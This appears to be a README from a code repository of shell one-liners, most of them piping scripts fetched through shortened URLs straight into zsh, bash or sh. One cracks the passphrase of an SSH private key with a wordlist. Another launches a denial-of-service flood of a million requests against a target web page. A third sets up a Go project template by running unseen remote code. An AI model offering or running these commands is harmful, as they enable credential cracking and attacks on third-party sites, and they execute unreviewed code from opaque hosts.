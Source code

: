 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/service_templated)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

## License

This project is licensed under the GPL-3 license.
